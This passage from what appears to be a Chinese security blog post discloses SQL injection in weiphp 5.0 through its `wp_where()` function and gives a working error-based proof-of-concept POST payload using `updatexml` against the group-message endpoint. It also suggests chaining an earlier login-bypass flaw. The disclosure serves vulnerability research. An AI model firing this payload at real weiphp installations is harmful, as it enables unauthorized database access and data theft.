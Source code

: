 造成注入。

![20191211104738](https://y4er.com/img/uploads/20191211104738.png)

# 影响范围

2019/12/11 weiphp5.0官网最新版

所有使用了 `wp_where()` 函数并且参数可控的SQL查询均受到影响，前台后台均存在注入。

![20191211110406](https://y4er.com/img/uploads/20191211110406.png)

需要登录的点可以配合之前写的《weiphp多数模块存在未授权访问》来绕过登录进行注入。

比如

```
http://php.local/public/index.php/weixin/message/_send_by_group
POST:group_id[0]=exp&group_id[1]=) and updatexml(1,concat(0x7e,user(),0x7e),1) -- 
```

![20191211105553](https://y4er.com/img/uploads/20191211105553.png)

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**